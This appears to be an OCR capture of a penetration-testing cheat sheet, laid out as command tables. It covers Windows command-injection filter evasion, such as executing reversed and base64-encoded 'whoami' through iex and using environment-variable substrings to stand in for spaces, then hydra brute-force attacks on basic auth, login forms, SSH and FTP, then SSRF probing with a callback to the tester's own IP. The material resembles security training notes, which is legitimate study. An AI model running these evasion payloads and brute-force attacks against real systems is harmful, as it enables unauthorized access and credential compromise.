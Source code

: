 **Windows**

| Command                                                                                                        | Description                                  |
| -------------------------------------------------------------------------------------------------------------- | -------------------------------------------- |
| `%09`                                                                                                          | Using tabs instead of spaces                 |
| `%PROGRAMFILES:~10,-5%`                                                                                        | Will be replaced with a space - (CMD)        |
| `$env:PROGRAMFILES\[10]`                                                                                       | Will be replaced with a space - (PowerShell) |
| `%HOMEPATH:~0,-17%`                                                                                            | Will be replaced with \ - (CMD)              |
| `$env:HOMEPATH\[0]`                                                                                            | Will be replaced with \ - (PowerShell)       |
| `' or "`                                                                                                       | Total must be even                           |
| `^`                                                                                                            | Windows only (CMD)                           |
| `WhoAmi`                                                                                                       | Simply send the character with odd cases     |
| `"whoami"\[-1..-20] -join ''`                                                                                  | Reverse a string                             |
| `iex "$('imaohw'\[-1..-20] -join '')"`                                                                         | Execute reversed command                     |
| `[Convert]::ToBase64String(\[System.Text.Encoding]::Unicode.GetBytes('whoami'))`                               | Encode a string with base64                  |
| `iex "$(\[System.Text.Encoding]::Unicode.GetString(\[System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string                   |

## Login Brute forcing

| Command                                                                                                                                | Description                                         |
| -------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------- |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /`                                                                                   | Basic Auth Brute Force - Combined Wordlist          |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`                                                             | Basic Auth Brute Force - User/Pass Wordlists        |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`                                                                     | SSH Brute Force - User/Pass Wordlists               |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`                                                                                   | FTP Brute Force - Static User, Pass Wordlist        |
| `cupp -i`                                                                                                                              | Creating Custom Password Wordlist                   |
| `sed -ri '/^.{,7}$/d' william.txt`                                                                                                     | Remove Passwords Shorter Than 8                     |
| ``sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``                                                                                        | Remove Passwords With No Special Chars              |
| `sed -ri '/[0-9]+/!d' william.txt`                                                                                                     | Remove Passwords With No Numbers                    |
| `./username-anarchy Bill Gates > bill.txt`                                                                                             | Generate Usernames List                             |

## Server side request forgery

| Command                                                                                                           | Description                                                                    |
| ----------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------ |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"`                                         | Testing for SSRF vulnerability                                                 |
| `python3 -m http.server 9090`                                                                                     | Starting the python web server                                                 |
| `sudo pip3 install twisted`                                                                                       | Installing the ftp server                                                      |
| `sudo python3 -m twisted ftp -p 21 -r .`                                                                          | Starting the ftp server                                                        |